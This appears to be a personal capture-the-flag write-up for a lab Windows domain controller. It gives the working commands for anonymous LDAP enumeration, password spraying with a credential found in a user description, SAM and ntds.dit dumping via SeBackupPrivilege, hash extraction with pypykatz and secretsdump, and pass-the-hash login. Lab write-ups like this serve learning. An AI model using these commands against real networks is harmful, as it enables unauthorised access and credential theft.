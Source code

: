 ## User
* windows dc w expected stuff open
* `nmap -n -sV --script "ldap* and not brute" -Pn IP` to dump anonymous ldap info
	* `Context: DC=baby,DC=vl` anonymous has access to browse the directory
* tried to used apache directory browser to view the full directory - arch is buns
* `ldapsearch -x -H ldap://IP:389 -b "DC=baby,DC=vl"`
	* User had creds in a description `Teresa.Bell/BabyStart123!`, creds didn't work
* decided to password spray users
	* `cat ldap-dump.txt | grep userPrincipalName | awk '{print $2}' | cut -d "@" -f 1` to get a list of users
	* `crackmapexec smb 10.10.105.51 -u ./users.txt -p BabyStart123! --shares` to spray the credential at all the users
	* password needs changing
		* `smbpasswd -r IP -U USER`
* used winrm to connect as user `evil-winrm -i IP -u Caroline.Robinson -p BallsInYourFace69!`
	* flag was on desktop user.txt
![[user-flag.png]]
![[cme-smb-passwd-spray.png]]

## Root
* hint says to look at user permissions `whoami /priv`
![[initial-privs.png]]
* SeBackupPrivilege
	* allows users to read all files on a system
	* https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/
* Move to any directory where we have write permissions
	* `reg save hklm\sam c:\Temp\sam` && `reg save hklm\system c:\temp\system` saves the sam and system files
	* downloaded them w smbclient
* Used mimikatz to dump hashes from the sam hive
	* `pypykatz registry --sam sam system`
	* this is only local creds; useless
![[local-creds.png]]
### Exploiting SeBackup/SeRestore
* use diskshadow and robocopy to dump ntds.dit
* exfiltrate to host
* `impacket-secretsdump -ntds ntds.dit -system system.hive local`
* pass the hash via evil-winrm
	* `evil-winrm -i IP -u 'administrator' -H '<REDACTED>'`
![[vulnlab/baby/root-flag.png]]